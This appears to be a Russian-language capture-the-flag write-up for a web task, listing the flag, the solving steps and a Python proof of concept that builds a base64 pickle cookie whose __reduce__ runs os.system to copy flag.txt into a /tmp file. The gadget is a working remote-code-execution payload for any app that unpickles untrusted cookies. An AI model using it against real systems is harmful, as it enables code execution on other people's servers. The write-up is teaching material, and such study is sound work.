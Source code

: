 # ЗаБАЙТили на огурцы
## Описание 
Зато у каждого свой файлик... 

## Flag
kxctf{1n$3cUR3_D3$3r1@l1Z@t10n_1s_D@ng3R0u$}

## Write-Up

1. Регестрируемся

![register](register.PNG)

2. Логинимся и видим, что каждому пользователю присваивается файлик в директории /tmp

![login](login.PNG)

3. Исходя из названия таска и обратив внимание на cookie понимаем, что это сериализованная строка ( препологаем, что pickle)
4. Через уязвимость небезопасной десериализации можем получить исполнение команд и видеть их результат, записав его в файлик который нам пренадлежит
5. Задача, получившуюся с помощью poc-а ниже, строку положить в cookie и перейти на `/`, что приведет к исполнению кода

![poc](poc.PNG)

![attack](attack.PNG)

6. После этого получаем 500 ошибку, но это уже не важно, ведь код был выполнен. Возвращаем легитимное значение cookie, идем на `/` , видим флаг ) 

![500](500.PNG)


![final](final.PNG)

---

poc для генерации cookie

```python
import pickle
import base64
from typing import Any
import requests

class exploit(object):
    def __reduce__(self) -> str | tuple[Any, ...]:
        import os
        return(os.system,(b"cat flag.txt > /tmp/74051960-2bf7-4c37-91dd-a6c675d83723",
                          ))
    
def send_payload():
    payload = exploit()
    payload = base64.b64encode(pickle.dumps(payload))
    print(payload)

if __name__ == "__main__":
    send_payload()
```